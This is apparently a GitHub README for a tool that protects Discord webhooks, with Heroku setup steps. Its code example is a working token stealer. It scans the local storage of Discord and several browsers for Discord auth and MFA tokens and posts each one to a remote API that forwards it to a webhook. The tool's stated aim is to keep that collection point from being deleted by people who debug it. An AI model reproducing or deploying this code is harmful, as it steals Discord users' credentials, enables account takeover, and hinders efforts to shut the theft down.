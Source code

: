 <p align="center">
<img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Webhook-Protector?style=flat-square" </a>
<img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Webhook-Protector?style=flat-square" </a>
<img src="https://img.shields.io/github/stars/Rdimo/Discord-Webhook-Protector?color=444444&label=Stars&style=flat-square" </a>
<img src="https://img.shields.io/github/forks/Rdimo/Discord-Webhook-Protector?color=444444&label=Forks&style=flat-square" </a>
</p>

#### Discord-Webhook-Protector was made by
Love ❌ code ✅

---

### 🔰・Features
```
> Easy to setup
> Webhook protected by totp so webhook can't be spammed or deleted even if they http debug!
> Accepting only post requests
> near to impossible to delete webhook (still possible to spam, but very hard)
```

### 🎈・Code example
```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-random-heroku-name.herokuapp.com" #the name of your app will probably be something like https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #needs to be same key as the one in your api
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    requests.post(api, headers={"Authorization": key}, json={"content": token})
```

### 📁・Setting up the api
1. Create an account on [Heroku.com](https://heroku.com)
2. Install [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), and [git](https://git-scm.com/)
3. open api.js and put in your webhook at the top (line 5)
4. open cmd in the directory and type `npm i`
5. Now follow these steps carefully ⇣
```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "first Webhook protector api commit"
...
$ heroku create
...
$ git push heroku main
...
$ heroku ps:scale web=1
$ heroku open
```

### 📜・ Upcoming features
* File upload support